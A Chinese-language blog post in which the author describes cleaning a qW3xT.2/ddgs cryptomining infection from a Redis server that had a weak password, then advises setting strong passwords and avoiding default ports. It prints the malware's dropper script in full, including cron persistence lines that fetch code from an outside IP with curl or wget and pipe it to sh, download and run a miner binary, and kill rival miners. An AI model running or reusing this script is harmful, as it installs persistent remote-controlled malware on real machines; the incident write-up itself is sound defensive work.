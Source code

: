 ```yaml
---
title: 记一次挖矿病毒处理qW3xT.2
date: 2018-08-12 09:59:32
tags: [Linux,problem,qW3xT,hack]
categories: [server]
---
```


## 问题发现及解决

​	在ucloud使用redis，开启了6379端口，但是当时并没有对redis的密码进行设置复杂的设置，设置的为123456。

使用top命令查询，发现cpu异常占用过高。99%以上

![1536317606280](http://pic.fenghong.tech/tapd_23280401_1536318583_22.png)

​	qW3xT.2程序和ddgs.3013程序，看起来就不是正常的程序。google了一下，发现是美国的一个挖矿程序。

​	进入/tmp文件夹下。发现qW3xT.2文件，删除。之后kill掉qW3xT.2该进程，但是一段时间之后，发现该行程又重新启动。

​	一段时间之后，删除的文件重新生成，dds和挖矿的进程又重新执行。此时怀疑是否有计划任务，此时查看计划任务的列表

```
]# find / -name qW3xT.2
]# find / -name ddgs.3013
]# crontab -l 
*/15 * * * * curl -fsSL http://149.56.106.215:8000/i.sh | sh
]# cd /var/spool/cron/
]# rm -rf * 	
]# crontab -l  ##任务计划清除完毕。
```

​	分析一下挖矿脚本

```
]# curl -fsSL http://149.56.106.215:8000/i.sh | sh

export PATH=$PATH:/bin:/usr/bin:/usr/local/bin:/usr/sbin

echo "" > /var/spool/cron/root
echo "*/15 * * * * curl -fsSL http://149.56.106.215:8000/i.sh | sh" >> /var/spool/cron/root
echo "*/15 * * * * wget -q -O- http://149.56.106.215:8000/i.sh | sh" >> /var/spool/cron/root

mkdir -p /var/spool/cron/crontabs
echo "" > /var/spool/cron/crontabs/root
echo "*/15 * * * * curl -fsSL http://149.56.106.215:8000/i.sh | sh" >> /var/spool/cron/crontabs/root
echo "*/15 * * * * wget -q -O- http://149.56.106.215:8000/i.sh | sh" >> /var/spool/cron/crontabs/root

ps auxf | grep -v grep | grep /tmp/ddgs.3013 || rm -rf /tmp/ddgs.3013
if [ ! -f "/tmp/ddgs.3013" ]; then
    wget -q http://149.56.106.215:8000/static/3013/ddgs.$(uname -m) -O /tmp/ddgs.3013
    curl -fsSL http://149.56.106.215:8000/static/3013/ddgs.$(uname -m) -o /tmp/ddgs.3013
fi
chmod +x /tmp/ddgs.3013 && /tmp/ddgs.3013

ps auxf | grep -v grep | grep Circle_MI | awk '{print $2}' | xargs kill
ps auxf | grep -v grep | grep get.bi-chi.com | awk '{print $2}' | xargs kill
ps auxf | grep -v grep | grep hashvault.pro | awk '{print $2}' | xargs kill
ps auxf | grep -v grep | grep nanopool.org | awk '{print $2}' | xargs kill
ps auxf | grep -v grep | grep minexmr.com | awk '{print $2}' | xargs kill
ps auxf | grep -v grep | grep /boot/efi/ | awk '{print $2}' | xargs kill
#ps auxf | grep -v grep | grep ddg.2006 | awk '{print $2}' | kill
#ps auxf | grep -v grep | grep ddg.2010 | awk '{print $2}' | kill
```

​	解决redis入口问题，因为最开始没有设置密码，所以首先修改redis.conf。设置密码，然后重启redis。

## 总结

​	知名应用程序的端口应避免使用默认端口，认证密码应稍微复杂，避免使用888888,123456等简单密码。

